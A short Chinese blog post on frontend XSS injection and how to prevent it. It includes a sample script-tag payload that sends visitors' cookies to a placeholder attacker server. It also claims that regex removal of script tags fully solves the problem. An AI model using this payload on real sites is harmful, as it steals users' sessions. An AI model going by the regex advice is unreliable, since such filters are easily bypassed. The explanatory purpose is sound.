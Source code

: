 ```yaml
---
title: 前端安全-XSS注入
date: 2017-04-13
categories: 前端工程化
---
```

目前WEB应用为满足用户需求，也变得越来越复杂，随之而来的就是各种网络安全的问题。今天在这里讨论前端安全相关的事情。然而想做到绝对安全几乎不可能，支付宝也爆过安全问题，而我们要做的就是提高安全等级，只要能让黑客的攻击成本。

#### XSS注入示例:
如果一个社交网站没有做XSS防范，一位恶意博主的昵称如下：
```js
<script>
    $.ajax({
        url: '自己的服务器',
        dataType: 'jsonp',
        data: {'cookie': document.cookie}
    });
</script>
```
那么有访问者来到这个博主的空间时，就会执行script标签中的代码，发起ajax请求、并把访问者的cookie上传到攻击者服务器，如此访问者身份信息被盗。

#### 防范XSS注入
上述的注入示例，原理是浏览器遇到script标签的，执行其中的脚本，导致攻击成功。但是如果我们将script标签的进行转义，则浏览器便不会认为其是一个标签，不去执行其中的代码，只是正常展示.
通过<srcipt>标签， src属性做注入的方式多烦多可以参考：

#### 比较不错的参考资料
https://segmentfault.com/a/1190000006672214#articleHeader11

最为快捷一绝后患的方式，即 正则匹配script标签进行内容替换，或者禁止用户输入此类字符
